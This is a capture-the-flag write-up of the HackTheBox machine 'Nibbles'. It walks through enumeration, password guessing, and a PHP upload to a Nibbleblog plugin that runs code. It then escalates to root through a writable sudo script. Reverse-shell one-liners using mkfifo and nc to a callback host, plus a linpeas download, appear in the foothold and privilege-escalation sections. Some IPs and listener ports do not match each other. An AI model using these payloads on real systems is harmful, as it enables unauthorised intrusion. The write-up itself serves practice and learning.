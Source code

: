 ```yaml
---
title: HTB - Nibbles 
date: 2022-10-02
categories: [HackTheBox, Machines]
tags: [gobuster, cewl]
---
```


# Introduction

Let's walk through the box **Nibbles**, an easy-rated Linux box that showcases common enumeration tactics, basic web application exploitation, and a file-related misconfiguration to escalate privileges.

>For this writeup I will say that the IP adresses are the following:
>
> - **attack machine** is `10.10.10.1`
>
> - **target machine** is `10.10.10.2`
{: .prompt-warning }

# Enumeration

Firstly let's do some basic enumeration with nmap.
We will begin with a simple quick scan to discover common open ports and service versions:

````bash
nmap -sV --open 10.10.10.2
````

We quickly see two open ports:

````bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
````

Let's start another scan, a full one this time, to be sure to not miss any unusual port:

````
nmap -sV -p- 10.10.10.2
````

While the full scan is running we can check the two known open ports with the defaults nmap scripts:

````
nmap -sC -p 22,80 10.10.10.2
````

Unfortunatly the full scan and the script scan didn't finish with something useful for us. Now let's look at the web server we found.

## Web Enumeration

When we open firefox on the address there is just one message displayed: Hello world!

Checking the page source reveal an interesting comment:

````html
<!-- /nibbleblog/ directory. Nothing interesting here! -->
````

A simple web research on **Nibbleblog** shows that it's a PHP based blog engine with a well know File Upload Vulnerability which allows an authenticated attacker to upload and execute PHP code on the server. We still don't know yey which version on Nibbleblog is running this server but it's still something good to know.

Now it's time to use gobuster to discover hidden directories:

````bash
gobuster dir -w /path/to/wordlist/common.txt -u 10.10.10.2
````

Nothing interesting with this scan. Let's try now to add the directory found in the html comment:

````bash
gobuster dir -w /path/to/wordlist/common.txt -u 10.10.10.2/nibbleblog/
==========================================================================
/.hta                 (Status: 403) [Size: 302]
/.htaccess            (Status: 403) [Size: 307]
/.htpasswd            (Status: 403) [Size: 307]
/admin                (Status: 301) [Size: 323] [--> http://10.10.10.2/nibbleblog/admin/]
/admin.php            (Status: 200) [Size: 1401]                                           
/content              (Status: 301) [Size: 325] [--> http://10.10.10.2/nibbleblog/content/]
/index.php            (Status: 200) [Size: 2987]                                             
/languages            (Status: 301) [Size: 327] [--> http://10.10.10.2/nibbleblog/languages/]
/plugins              (Status: 301) [Size: 325] [--> http://10.10.10.2/nibbleblog/plugins/]  
/README               (Status: 200) [Size: 4628]                                               
/themes               (Status: 301) [Size: 324] [--> http://10.10.10.2/nibbleblog/themes/]  
````

Many directories found here!

After looking at each here are the interesting ones for now:

- admin/    -> Many files here
- admin.php -> login form
- content/  ->
- README/ -> confirm the vulnerable version

Can't bruteforce login -> error message to blacklist us

In /content/private we find user.xml containing the admin user and we can see some blacklisted addresses

Nothing seems to leak the password. Finding the word nibbles in many files is worth giving it a try with the admin user.

Bingo!

Not easy to guess a password like that. HackTheBox advices us to use tools such as [CeWL](https://github.com/digininja/CeWL) to create custom generated wordlist based on a website.

# Initial Foothold

Now we are logged as admin let's take time to walk the administration panel.
Attempting to make a new page and embed code or upload files does not seem like the path. Let us check out the plugins page.

On the configuration page of the My image plugin we can see an upload form. Here we will try to send some PHP code to the server:

Firstly let's try to print the id command by savin the below code into a test.php file and uploading it:

````php
<?php system('id'); ?>
````

Now if we cURL the good URL:

````bash
curl http://10.129.42.190/nibbleblog/content/private/plugins/my_image/image.php

uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
````

- now let's upload a reverse shell, inspired by payloadallthethings: <?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 9443 >/tmp/f"); ?>
- setup the nc listener : nc -lvnp 9443
- add python3 -c 'import pty; pty.spawn("/bin/bash")' to upgrade the shell
- listing files shows user.txt and personal.zip

> here is the user flag !

# Privilege Escalation

- unzip the zip and see a monitor.sh
- let's move linpeas.sh to the victim machine
- python -m http.server 8000
- wget 10.10.10.1:8000/linpeas.sh
- chmod +x linpeas.sh
- ./linpeas.sh
- The nibbler user can run the monitor.sh file with root privs and us we can modify the content! So we will append a reverse shell cmd to the end of the file to get root access
- echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 8443 >/tmp/f' | tee -a monitor.sh
- nc -lvnp 4445
- sudo monitor.sh

> Here is the root flag !
